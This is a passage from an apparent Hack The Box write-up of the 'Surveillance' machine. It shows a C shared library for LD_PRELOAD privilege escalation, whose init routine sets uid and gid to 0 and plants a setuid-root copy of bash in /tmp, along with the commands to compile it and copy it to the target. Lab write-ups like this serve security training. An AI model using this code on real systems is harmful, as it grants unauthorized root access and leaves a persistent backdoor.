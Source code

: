 About half way down is one that seems interesting:

![image-20240418172700693](../img/image-20240418172700693.png)

Clicking the “?” generates this pop-up:

![image-20240418172718397](../img/image-20240418172718397.png)

#### Generate Shared Library

I’ll create the following short C program (just like in
[Clicker](/2024/01/27/htb-clicker.html#method-3-via-ld_preload)):

    
    
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("cp /bin/bash /tmp/0xdf-root");
      system("chown root:root /tmp/0xdf-root");
      system("chmod 6777 /tmp/0xdf-root");
    }
    

I’ll compile it and copy it to Surveillance:

    
    
    oxdf@hacky$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
    oxdf@hacky$ scp -i ~/keys/ed25519_gen shell.so zoneminder@surveillance.htb:/tmp/
    shell.so                                     100%   14KB  78.3KB/s   00:00
    